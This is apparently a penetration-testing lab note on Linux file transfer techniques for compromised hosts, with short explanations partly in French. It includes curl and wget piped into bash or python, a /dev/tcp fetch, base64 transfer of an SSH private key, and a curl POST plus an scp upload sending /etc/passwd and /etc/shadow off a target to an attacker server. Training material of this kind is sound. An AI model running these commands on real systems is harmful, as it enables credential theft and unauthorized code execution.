 # Linux File Transfer Methods

***

## <mark style="color:red;">Download Operations</mark>

![image](https://academy.hackthebox.com/storage/modules/24/LinuxDownloadUpload.drawio.png)

### <mark style="color:blue;">Base64 Encoding / Decoding</mark>

{% code fullWidth="true" %}
```bash
md5sum id_rsa
```
{% endcode %}

<mark style="color:orange;">**Pwnbox - Encode SSH Key to Base64**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
cat id_rsa |base64 -w 0;echo
```
{% endcode %}

<mark style="color:orange;">**Linux - Decode the File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
echo -n 'LS0tLS1C--lUkVtLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo=' | base64 -d > id_rsa
```
{% endcode %}

<mark style="color:orange;">**Linux - Confirm the MD5 Hashes Match**</mark>

```shell-session
md5sum id_rsa
```

Note: You can also upload files using the reverse operation. From your compromised target cat and base64 encode a file and decode it in your Pwnbox.

***

### <mark style="color:blue;">Web Downloads with Wget and cURL</mark>

<mark style="color:orange;">**Download a File Using wget**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
{% endcode %}

<mark style="color:orange;">**Download a File Using cURL**</mark>

{% code fullWidth="true" %}
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
{% endcode %}

***

### <mark style="color:blue;">Fileless Attacks Using Linux</mark>

* Les pipes sous Linux permettent d’exécuter des commandes sans écrire de fichier sur le disque (exécution « fileless »).
* Beaucoup d’outils Linux peuvent être combinés pour reproduire des opérations fileless.
* Certains payloads (p.ex. `mkfifo`) peuvent quand même créer des fichiers temporaires sur le système.
* L’exécution via pipe peut être fileless même si le payload crée des artefacts locaux selon sa nature.
* Exemple expliqué : au lieu de télécharger `LinEnum.sh`, on peut l’exécuter directement en le piping depuis `curl`.
* Attention : « fileless » ne signifie pas « sans traces » — des artefacts et logs peuvent subsister.

<mark style="color:orange;">**Fileless Download with cURL**</mark>

{% code fullWidth="true" %}
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
{% endcode %}

<mark style="color:orange;">**Fileless Download with wget**</mark>

{% code overflow="wrap" fullWidth="true" %}
```sh
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

-q : mode quiet (silencieux), ne montre pas la progression du téléchargement.

-O- : redirige la sortie vers stdout (la console) au lieu d’un fichier.
```
{% endcode %}

***

### <mark style="color:blue;">Download with Bash (/dev/tcp)</mark>

<mark style="color:orange;">**Connect to the Target Webserver**</mark>

```purebasic
exec 3<>/dev/tcp/10.10.10.32/80
```

<mark style="color:orange;">**HTTP GET Request**</mark>

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

<mark style="color:orange;">**Print the Response**</mark>

```bash
cat <&3
```

***

### <mark style="color:blue;">SSH Downloads</mark>

<mark style="color:orange;">**Enabling the SSH Server**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
sudo systemctl enable ssh
```
{% endcode %}

<mark style="color:orange;">**Starting the SSH Server**</mark>

{% code fullWidth="true" %}
```bash
sudo systemctl start ssh
```
{% endcode %}

<mark style="color:orange;">**Checking for SSH Listening Port**</mark>

{% code fullWidth="true" %}
```bash
netstat -lnpt
```
{% endcode %}

{% code fullWidth="true" %}
```sh
scp plaintext@192.168.49.128:/root/myroot.txt . 
```
{% endcode %}

Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

***

## <mark style="color:red;">Upload Operations</mark>

***

### <mark style="color:blue;">Web Upload</mark>

<mark style="color:orange;">**Pwnbox - Start Web Server**</mark>

{% code fullWidth="true" %}
```bash
sudo python3 -m pip install --user uploadserver
```
{% endcode %}

<mark style="color:orange;">**Pwnbox - Create a Self-Signed Certificate**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
{% endcode %}

<mark style="color:orange;">**Pwnbox - Start Web Server**</mark>

{% code fullWidth="true" %}
```bash
mkdir https && cd https
```
{% endcode %}

{% code fullWidth="true" %}
```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
{% endcode %}

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.

<mark style="color:orange;">**Linux - Upload Multiple Files**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
 curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
{% endcode %}

We used the option `--insecure` because we used a self-signed certificate that we trust.

***

### <mark style="color:blue;">Alternative Web File Transfer Method</mark>

<mark style="color:orange;">**Linux - Creating a Web Server with Python3**</mark>

```bash
mrroboteLiot@htb[/htb]$ python3 -m http.server
```

<mark style="color:orange;">**Linux - Creating a Web Server with Python2.7**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ python2.7 -m SimpleHTTPServer
```

<mark style="color:orange;">**Linux - Creating a Web Server with PHP**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ php -S 0.0.0.0:8000
```

<mark style="color:orange;">**Linux - Creating a Web Server with Ruby**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ ruby -run -ehttpd . -p8000
```

<mark style="color:orange;">**Download the File from the Target Machine onto the Pwnbox**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ wget 192.168.49.128:8000/filetotransfer.txt
```

Note: When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.

***

### <mark style="color:blue;">SCP Upload</mark>

<mark style="color:orange;">**File Upload using SCP**</mark>

{% code fullWidth="true" %}
```shell-session
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/                                                                                                         100% 3414     6.7MB/s   00:00
```
{% endcode %}

Note: Remember that scp syntax is similar to cp or copy.
